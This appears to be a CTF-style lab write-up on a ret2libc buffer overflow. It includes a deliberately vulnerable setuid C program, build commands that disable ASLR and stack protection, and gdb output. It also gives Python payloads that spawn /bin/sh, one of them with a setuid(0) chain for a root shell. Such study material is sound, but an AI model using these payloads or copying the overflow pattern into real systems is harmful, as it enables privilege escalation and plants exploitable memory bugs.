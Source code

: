 ret2libc
===
🔙 [MENU README](../PWN.md#challenge)

# Environment
Source
```C
// ~/Downloads/libc/retlib.c

#include<stdlib.h>
#include<stdio.h>
#include<string.h>

int bof(FILE *badfile){
    char buffer[12];

    fread(buffer, sizeof(char), 140, badfile);
    return 1;
}

int main(int argc,char **argv){
    FILE *badfile;

    badfile = fopen("badfile", "r");
    bof(badfile);

    printf("Returned Properly\n");
    fclose(badfile);
    return 1; 
}
```
Compile
```bash
# Disable ASLE
sudo sysctl -w kernel.randomize_va_space=0

sudo gcc retlib.c -o retlib -no-pie -fno-pic -z noexecstack -fno-stack-protector -m32

sudo chmod 4755 retlib
```

# Hint
```
想辦法在程式中執行
system("/bin/sh");
```


# Payload (no root)
Test
```bash
gdb-peda pattern create 250 badfile
gdb-peda pattern search
# EIP+0 found at offset: 24

python -c 'print "A"*24 + "BBBB" + "C"*64' > badfile
```
system("/bin/sh")
```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e42db0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369e0 <__GI_exit>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f63b2b ("/bin/sh")
```
Payload
```bash
python -c 'print "A"*24 + "\xb0\x2d\xe4\xb7" + "\xe0\x69\xe3\xb7" + "\x2b\x3b\xf6\xb7" + "C"*64' > badfile
```
![](../ret2libc.png)

# Paylaod (root)
```bash
gdb-peda$ p setuid
$1 = {<text variable, no debug info>} 0xb7eb93c0 <__setuid>
gdb-peda$ p setgid
$2 = {<text variable, no debug info>} 0xb7eb9440 <__setgid>
gdb-peda$ ropgadget
ret = 0x8048329
popret = 0x8048345 <===
pop4ret = 0x8048598
pop2ret = 0x804859a
pop3ret = 0x8048599
addesp_12 = 0x8048342
addesp_16 = 0x8048425
```
Payload
```bash
python -c 'print "A"*24 + "\xc0\x93\xeb\xb7" + "\x45\x83\x04\x08" + "\x00\x00\x00\x00" + "\x40\x94\xeb\xb7" + "\x45\x83\x04\x08" + "\x00\x00\x00\x00" + "\xb0\x2d\xe4\xb7" + "\xe0\x69\xe3\xb7" + "\x2b\x3b\xf6\xb7" + "C"*16' > badfile
```
![](../ret2libc(root).png)